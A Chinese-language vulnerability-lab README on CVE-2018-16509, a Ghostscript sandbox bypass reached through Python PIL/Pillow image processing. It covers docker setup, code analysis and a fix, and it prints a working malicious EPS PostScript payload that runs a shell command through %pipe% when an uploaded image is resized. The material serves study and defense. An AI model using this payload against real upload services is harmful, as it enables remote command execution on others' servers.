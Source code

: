 # Python PIL/Pillow 远程命令执行漏洞 (CVE-2018-16509)

[English](README.md)

PIL/Pillow 是 Python 中广泛使用的图像处理库。

在 Ghostscript 9.24 版本之前，存在一个 -dSAFER 沙盒绕过漏洞（CVE-2018-16509），攻击者可以通过构造恶意的图片文件，在图片处理过程中执行任意命令。这个漏洞影响了使用 Ghostscript 进行图像处理的多种应用，包括 Python 的 PIL/Pillow 库。当应用程序使用 PIL/Pillow 处理用户上传的图片时，若环境中安装了存在漏洞的 Ghostscript，则可能导致远程命令执行。

参考链接：

- [Ghostscript: -dSAFER bypass (CVE-2018-16509)](https://seclists.org/oss-sec/2018/q3/142)
- [PIL/Pillow EPS Image Processing](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py)
- [Ghostscript 沙箱绕过漏洞分析](https://paper.seebug.org/1159/)

## 环境搭建

执行如下命令启动一个包含漏洞的 Flask 应用（使用 Ghostscript 9.23 版本）：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8000` 即可看到一个简单的图片上传页面。

## 漏洞复现

准备一个恶意的 EPS 文件（本环境中已提供 `rce.jpg`），其内容如下：

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

访问 `http://your-ip:8000`，上传这个文件。

上传后，服务器会使用 PIL/Pillow 处理这个图片，在调用 `resize` 函数时会触发漏洞，执行 `touch /tmp/got_rce` 命令。

执行以下命令验证漏洞是否成功利用：

```
docker compose exec web ls -la /tmp/
```

如果看到 `/tmp/got_rce` 文件，则说明命令执行成功。

## 漏洞分析

漏洞的核心在于 PIL/Pillow 在处理 EPS 图像时会调用系统的 Ghostscript 程序。在 `EPSImagePlugin.py` 中，PIL 使用 `subprocess` 调用 Ghostscript：

```python
command = ["gs",
           "-q",                         # quiet mode
           "-g%dx%d" % size,             # set output geometry (pixels)
           "-r%fx%f" % res,              # set input DPI (dots per inch)
           "-dBATCH",                    # exit after processing
           "-dNOPAUSE",                  # don't pause between pages
           "-dSAFER",                    # safe mode
           "-sDEVICE=ppmraw",            # ppm driver
           "-sOutputFile=%s" % outfile,  # output file
           "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                         # adjust for image origin
           "-f", infile,                 # input file
           "-c", "showpage",             # showpage
           ]
```

虽然使用了 `-dSAFER` 参数，但 Ghostscript 9.24 版本之前存在沙盒绕过漏洞，攻击者可以通过特制的 PostScript 代码执行任意命令。

在示例应用中，当图片上传后，会进行如下处理：

```python
img = Image.open(img_path)
w, h = img.size
ratio = 256.0 / max(w, h)

resized_img = img.resize((int(w * ratio), int(h * ratio)))
resized_img.save(img_path)
```

仅调用 `Image.open()` 不会触发漏洞，但当调用 `resize()` 或 `save()` 等需要实际加载图片数据的方法时，会触发 Ghostscript 的调用，从而执行恶意命令。

要修复此漏洞，需要更新 Ghostscript 到 9.24 或更高版本，或者在使用 PIL/Pillow 处理用户上传的图片时，禁用 EPS 图像处理功能。
